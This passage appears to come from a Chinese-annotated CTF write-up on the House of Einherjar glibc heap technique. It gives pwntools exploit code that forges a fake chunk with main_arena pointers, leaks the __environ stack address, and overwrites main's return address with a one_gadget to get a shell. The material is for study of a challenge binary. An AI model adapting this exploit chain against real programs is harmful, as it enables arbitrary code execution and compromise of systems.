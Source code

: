 #### 5. fix the fake chunk size, fd and bk

正常情况下测  unsorted bin

![img-6-1](/Users/jibin/Desktop/img-6-1.png)

```python
edit(4, 'd' * 0x20 + p64(0) + p64(0x101) + p64(main_arena + 88) + p64(main_arena + 88))
    #unsorted_bins 要指向 <main_arena+88>
    #======测试代码======
    # add(0x100, 'c' * 8)  # idx 2
    # add(0x100, 'c' * 8)  # idx 2
    # delete(1)
    # gdb.attach(p)
    #===================
```

#### 6. overwrite malloc_hook with one_gadget

![img-analysis-6-1](house-of-einherjar/img-analysis-6-1.png)

```python
    # overwrite malloc_hook with one_gadget
    one_gadget_addr = libc_base + 0x45216   # one_gadget 工具得到 exc()函数偏移
    environ_pointer = libc_base + libc.symbols['__environ']
    log.info('one gadget addr: ' + hex(one_gadget_addr))
    log.info('environ pointer addr: ' + hex(environ_pointer))
    #fake_malloc_chunk = main_arena - 60 + 9
    # set memo[0].size = 'a'*8,
    # set memo[0].content point to environ to leak environ addr
    fake_pad = 'f' * (0x100 - 0x20 - 0x10) + 'a' * 8 + p64(environ_pointer) + 'a' * 8 + p64(0x602148)
    # get a fake chunk
    add(0x100 - 8, fake_pad)  # idx 2

    # get environ addr
    p.recvuntil(' # CONTENT: ')
    environ_addr = p.recvuntil('\n', drop=True).ljust(8, '\x00')
    environ_addr = u64(environ_addr)
    main_ret_addr = environ_addr - 30 * 8

    # set memo[0].content point to main_ret_addr
    edit(2, p64(main_ret_addr))
    # overwrite main_ret_addr with one_gadget addr
    edit(1, p64(one_gadget_addr))
    gdb.attach(p)
    p.interactive()
```